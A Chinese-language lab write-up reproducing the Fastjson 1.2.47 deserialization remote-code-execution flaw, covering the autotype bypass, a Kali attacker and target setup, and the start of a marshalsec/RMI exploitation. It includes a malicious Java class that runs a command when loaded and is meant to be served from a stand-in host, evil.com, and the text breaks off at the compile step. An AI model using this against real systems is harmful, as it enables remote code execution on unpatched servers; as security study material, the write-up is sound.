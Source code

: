 # 0x00 漏洞概述
Fastjson是阿里巴巴公司开源的一款json解析器，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean，被广泛应用于各大厂商的Java项目中。
​

首先，Fastjson提供了`autotype`功能，允许用户在反序列化数据中通过“@type”指定反序列化的类型。
其次，Fastjson自定义的反序列化机制时会调用指定类中的setter方法及部分getter方法，那么当组件开启了`autotype`功能并且反序列化不可信数据时，攻击者可以构造数据，使目标应用的代码执行流程进入特定类的特定setter或者getter方法中，若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的 `Gadget` ），则会造成一些严重的安全问题。
Fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。
即在Fastjson 1.2.47及以下版本中，利用其缓存机制可实现对未开启`autotype`功能的绕过。
# 0x01 影响范围

- fastjson<=1.2.47

​

# 0x02 漏洞分析

- [https://www.anquanke.com/post/id/181874](https://www.anquanke.com/post/id/181874)
# 0x03 环境搭建
kali：192.168.210.156

靶机：192.168.210.206

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1644997917043-1e9bc0b8-3b10-4ad2-b857-48e99885a3bd.png#clientId=u3b476d97-623c-4&from=paste&height=154&id=u96009385&margin=%5Bobject%20Object%5D&name=image.png&originHeight=205&originWidth=455&originalType=binary&ratio=1&size=20961&status=done&style=none&taskId=ue6c9b5b0-9c1f-4f14-b855-abe391e82ae&width=341)
# 0x04 漏洞复现
目标环境是`openjdk:8u102`，这个版本没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以简单利用RMI进行命令执行。
## 4.1 marshalsec工具
### 1、在靶机创建文件
#### 1）创建恶意java文件 -> class文件
首先编译并上传命令执行代码，如`[http://evil.com/TouchFile.class`](http://evil.com/TouchFile.class`)：
```shell
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}

```
将TouchFile.java编译成class文件
`javac TouchFile.java`
